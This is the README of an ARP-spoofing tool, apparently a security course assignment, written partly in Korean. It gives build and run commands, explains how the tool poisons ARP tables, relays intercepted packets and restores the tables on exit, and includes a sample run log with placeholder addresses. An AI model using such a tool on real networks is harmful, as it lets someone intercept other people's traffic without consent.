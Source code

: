# arp-spoof

sudo qmake arp-spoof

sudo make

sudo ./arp-spoof [interface] [sender ip address1] [target ip address1] [sender ip address2] [target ip address2] ...

로 실행시킬 수 있습니다.



sender가 attacker에게 보낸 ip 패킷과,

attacker가 target에게 보낼 ip 패킷을 다 출력창에서 볼 수 있도록 구현하였습니다.

sender가 attacker에게 보낸 ip 패킷의 arp 헤더에서 source mac address가 sender의 mac address와 같아야 한다는 조건을 넣었습니다.



3초마다 모든 (ith sender, ith target) 쌍에 대해서 ith sender가 ith target의 mac 주소를 attacker의 것으로 알게끔 구현하였고,

i번째 sender가 i번째 target의 mac address가 무엇인지 질의하는 arp request 에 대한 arp reply도 보내지도록 하였습니다.




마지막으로, 프로그램 종료시에는 ctrl + c를 누르시면,

모든 (ith sender, ith target) 쌍에 대해서 sender의 arp table에서 잘못된 target의 mac address를 

원래대로 복구할 수 있는 arp reply를 보내도록 하였습니다.

-10월 26일

## 실행예제

./sudo ens33 192.168.123.1 192.168.123.254 192.168.123.1 192.168.123.2 192.168.123.2 192.168.123.1

My ip address : 192.168.123.7
if you press ctrl + c, then the program will send arp-recover packets and then it would end!I got my mac address!
My mac address : DD:DD:DD:DD:DD
1th case of sender and target mac address finding started

1th sender's ip  address!	: 192.168.123.1
1th sender's mac address!	: AA:AA:AA:AA:AA:AA


1th target's ip  address!	: 192.168.123.254
1th target's mac address!	: CC:CC:CC:CC:CC:CC

2th case of sender and target mac address finding started

I already searched that ip, mac that will be shown below

2th sender's ip  address!	: 192.168.123.1
2th sender's mac address!	: AA:AA:AA:AA:AA:AA


2th target's ip  address!	: 192.168.123.2
2th target's mac address!	: BB:BB:BB:BB:BB:BB

3th case of sender and target mac address finding started

I already searched that ip, mac that will be shown below

3th sender's ip  address!	: 192.168.123.2
3th sender's mac address!	: BB:BB:BB:BB:BB:BB


I already searched that ip, mac that will be shown below

3th target's ip  address!	: 192.168.123.1
3th target's mac address!	: AA:AA:AA:AA:AA:AA


arp spoofing started!

Ip packet that I received is 1th pair!
packet's sender ip  address!	: 192.168.123.1
packet's target ip  address!	: 192.168.123.254
74 bytes captured
IP header, total packet length : 15360

I'll relay sender's packet to target!

Ip packet that I received is 3th pair!
packet's sender ip  address!	: 192.168.123.2
packet's target ip  address!	: 192.168.123.1
74 bytes captured
IP header, total packet length : 15360

I'll relay sender's packet to target!

Ip packet that I received is 2th pair!
packet's sender ip  address!	: 192.168.123.1
packet's target ip  address!	: 192.168.123.2
74 bytes captured
IP header, total packet length : 15360

I'll relay sender's packet to target!

Ip packet that I received is 2th pair!
packet's sender ip  address!	: 192.168.123.1
packet's target ip  address!	: 192.168.123.2
74 bytes captured
IP header, total packet length : 15360

I'll relay sender's packet to target!

Ip packet that I received is 2th pair!
packet's sender ip  address!	: 192.168.123.1
packet's target ip  address!	: 192.168.123.2
74 bytes captured
IP header, total packet length : 15360

I'll relay sender's packet to target!

Ip packet that I received is 3th pair!
packet's sender ip  address!	: 192.168.123.2
packet's target ip  address!	: 192.168.123.1
74 bytes captured
IP header, total packet length : 15360

I'll relay sender's packet to target!

Ip packet that I received is 2th pair!
packet's sender ip  address!	: 192.168.123.1
packet's target ip  address!	: 192.168.123.2
74 bytes captured
IP header, total packet length : 15360

I'll relay sender's packet to target!

Ip packet that I received is 3th pair!
packet's sender ip  address!	: 192.168.123.2
packet's target ip  address!	: 192.168.123.1
74 bytes captured
IP header, total packet length : 15360

I'll relay sender's packet to target!

Ip packet that I received is 2th pair!
packet's sender ip  address!	: 192.168.123.1
packet's target ip  address!	: 192.168.123.2
74 bytes captured
IP header, total packet length : 15360

I'll relay sender's packet to target!
^C

Program will send recover arp reply packet and terminate!
1th recover packet send!
2th recover packet send!
3th recover packet send!
Press <RETURN> to close this window...

